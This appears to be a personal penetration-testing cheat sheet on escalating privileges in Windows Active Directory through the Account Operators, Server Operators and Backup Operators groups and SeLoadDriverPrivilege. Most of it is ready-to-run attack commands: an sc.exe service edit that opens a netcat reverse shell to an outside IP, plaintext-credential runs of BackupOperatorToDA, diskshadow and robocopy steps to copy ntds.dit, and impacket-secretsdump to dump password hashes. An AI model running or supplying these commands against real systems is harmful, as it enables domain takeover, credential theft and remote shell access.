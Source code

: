 ## Account Operators
- Allows creating non administrator accounts and groups on the domain
- Allows logging in to the DC locally

However, we can still add new users:
![[image 17.png]]
As well as login to DC01 locally:
![[image 18.png]]

## Server Operators
This membership allows users to configure Domain Controllers with the following privileges:
- Allow log on locally
- Back up files and directories
- Change the system time
- Change the time zone
- Force shutdown from a remote system
- Restore files and directories
- Shut down the system

```
services

sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
```

## Backup Operators
As with `Server Operators` membership, we can access the `DC01` file system if we belong to `Backup Operators`:
![[image 19.png]]
https://github.com/mpgn/BackupOperatorToDA
```
BackupOperatorToDA.exe -t \\dc.red.lab -u peter -p Password123 -d red.lab -o //10.0.0.3/share/BackupOperatorToDA.exe -t \\dc.red.lab -u peter -p Password123 -d red.lab -o C:\temp


.\BackupOperatorToDA_release.exe -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -t \\CICADA-DC -o C:\Temp\
```
```
impacket-secretsdump -sam /tmp/share/SAM -system /tmp/share/SYSTEM -security /tmp/share/SECURITY LOCAL
```

If evil-winrm
Create backup.txt:
```
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

```
diskshadow /s pwn.txt
```
```
robocopy /b z:\windows\ntds . ntds.dit
```
```
reg save HKLM\SYSTEM c:\temp\system
```
```
impacket-secretsdump -ntds ntds.dit -system system local
```


## SeLoadDriverPrivilege
https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/
A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

https://github.com/TarlogicSecurity/EoPLoadDriver/
![[ejecucion_eoploaddriver.webp]]
Use capcom to get shell as system
https://github.com/tandasat/ExploitCapcom
![[image 11.avif]]
